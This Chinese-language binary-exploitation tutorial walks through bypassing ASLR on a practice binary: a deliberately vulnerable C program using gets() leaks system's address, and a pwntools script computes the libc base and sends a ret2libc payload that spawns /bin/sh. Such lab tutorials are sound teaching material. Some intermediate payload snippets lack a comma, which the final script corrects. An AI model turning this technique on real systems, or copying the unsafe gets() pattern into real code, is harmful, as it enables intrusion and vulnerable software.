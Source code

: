 ```yaml
---
title: '利用已泄漏信息绕过 ASLR'
date: '2023-08-23'
lastmod: '2023-08-23'
tags: ['PWN', 'Stack']
draft: false
summary: '绕过 ASLR'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 源码

<Download name="aslr.zip" href="/static/assets/aslr.zip" type="Binary" />

```c:source.c showLineNumbers
#include <stdio.h>
#include <stdlib.h>

void vuln() {
  char buffer[20];

  printf("System is at: %lp\n", system);

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

就像我们对 PIE 所做的那样，只不过这次我们输出 `system` 的地址。

## 0x02 分析

```
$ ./vuln-32
System is at: 0xf7c4f610
```

<Note>
  你的系统地址可能以不同的字符结尾。但这只是说明你用的是不同的 libc 版本。
</Note>

## 0x03 利用

其中大部分与我们对 PIE 所做的一样。

```python showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()
```

解析 `system` 地址并从中计算 libc 基址（就像我们对 PIE 所做的那样）。

```python showLineNumbers
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')
```

现在我们终于可以使用 libc ELF 对象来实现 `ret2libc` 了。

```python showLineNumbers
payload = flat(
    'A' * 32,
    libc.sym['system']
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

### 1x01 最终 Exploit

```python:exp.py showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

<Download name="aslr-64.zip" href="/static/assets/aslr-64.zip" type="Binary" />

自己尝试 :)

## 0x05 使用 pwntools 优化

```python showLineNumbers
payload = flat(
    'A' * 32,
    libc.sym['system']
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)
```

你可以将上面的 payload 写得更加 pwntoolsy。

```python showLineNumbers
shell = next(libc.search(b'/bin/sh'))

rop = ROP(libc)
rop.raw('A' * 32)
rop.system(shell)

p.sendline(rop.chain())
```

这样做的好处是更具可读性，而且也更容易在 64-bit 漏洞利用中重用。因为所有参数都会自动为你解析。

